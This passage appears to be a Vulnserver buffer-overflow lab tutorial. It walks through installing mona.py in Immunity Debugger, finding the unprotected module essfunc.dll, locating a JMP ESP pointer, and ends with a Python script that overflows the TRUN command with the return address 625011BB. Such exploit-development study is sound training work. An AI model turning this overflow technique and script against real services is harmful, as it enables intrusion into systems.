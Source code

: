 
![image](https://imgur.com/UM0Aosz.png)


`Installation Instruction`

Immunity Debugger

1. drop mona.py into the 'PyCommands' folder (inside the Immunity Debugger application folder).

![Image](https://imgur.com/BXJlxnS.png)

Local Disk ---> Program Files (x86) ------> Immunity Inc ------> Immunity Debugger -------> PyCommands -----> paste the Mona.py file in it.

Now let confirm if we have our module in immunity debugger ready let try and type `!mona modules` we should get something like that below;

![Image](https://imgur.com/eIqqysW.png)

What we’re looking for is `False` across the board, preferably. That means there are no memory protections present in the module if it `True` it mean we have memory protection on the board. The top module catches my eye immediately. It looks like essfunc.dll is running as part of Vulnserver and has no memory protections. Let’s write down the module and move on to the next step.

What we need to do now is find the opcode equivalent of JMP ESP. We are using JMP ESP because our EIP will point to the JMP ESP location, which will jump to our malicious shellcode that we will inject later. Finding the opcode equivalent means we are converting assembly language into hexcode. There is a tool to do this called nasm_shell.

Now let locate `Nasm_shell`

![Image](https://imgur.com/8AzcYoV.png)


Now let type `JMP ESP`

![image](https://imgur.com/v9l8WE3.png)

Our JMP ESP opcode equivalent is `FFE4`. Now, we can use Mona again to combine this new information with our previously discovered module to find our pointer address. The pointer address is what we will place into the EIP to point to our malicious shellcode. In our Immunity searchbar, let’s type;

`!mona find -s "\xff\xe4" -m essfunc.dll`

![image](https://imgur.com/Yz5Wts3.png)

Cool some really interesting pointers, What we have just generated is a list of addresses that we can potentially use as our pointer. I am going to select the second address, 625011BB.

![image](https://imgur.com/yP7hWlI.png)

![Image](https://imgur.com/RzpwdEd.png)

Now let edit our shell code like that below;

```
#!/usr/bin/python 
import sys, socket
 
shellcode = "A" * 2003 + "\xbb\x11\x50\x62"

try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('172.16.139.133',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print "Error Connecting To Server" 
```